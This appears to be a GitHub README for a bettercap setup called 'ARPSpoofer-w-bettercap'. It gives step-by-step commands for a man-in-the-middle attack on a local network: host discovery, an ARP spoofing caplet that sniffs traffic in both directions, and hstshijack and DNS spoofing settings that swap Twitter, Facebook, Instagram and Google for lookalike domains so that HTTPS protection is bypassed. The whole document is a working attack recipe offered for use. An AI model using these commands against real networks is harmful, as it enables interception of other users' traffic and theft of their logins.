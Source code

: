 # ARPSpoofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
   2. `net.probe on`
   3. `net.show`
   4. Pick a client and exit bettercap.
   5. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
   1. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
   2. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
   3. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
   1. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
   2. Targets and replacements could look like this… (customize to your liking)
      `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
   3. dns.spoof.domains could look like this... (customize to your liking) 
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
   1. `bettercap -iface <interface> -caplet <capletfile>`
   2. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
   1. `hstshijack/hstshijack`
   2. `caplets.show`







